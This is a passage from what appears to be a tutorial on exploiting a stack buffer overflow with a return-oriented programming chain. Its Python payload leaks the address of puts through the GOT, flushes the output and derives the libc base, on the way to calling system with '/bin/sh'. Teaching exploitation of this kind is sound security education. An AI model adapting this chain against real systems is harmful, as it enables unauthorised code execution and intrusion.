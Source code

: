 It's important to note though that we will find something with this code only if it runs AFTER the GOT entry has been filled (that is , if `puts` was already called). Which is our case of course because our code runs after the entire main is done.

**QUESTION: I run the exploit but get nothing back! what's wrong?**
That's because `puts` places the string on the stream but it doesn't yet flush it, so we have to call `fflush(0)` as well (remember the `fflush`?).
So we will add the following to the exploit code.

```python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

print payload
```

Next step is to compute the base of libc from that value, **but before we do that, we must determine the libc version of the remote machine** this requires our script to be a little bit more advanced and to work with sockets, don't worry - there's not that much we need to add!

At the end, we will use something like this in our code:

```python
def compute_libc_base_from_puts(puts_va):
    # this is true for libc 2.27
    # this is true for my local machine only
    puts_offset_in_libc = 0x0809c0

    return puts_va - puts_offset_in_libc
```

So the next step is to figure out what version of libc the remote machine is running, and then place the correct offset in our function so we could know the base of libc and thus the addresses of `system` and `"/bin/sh"`.
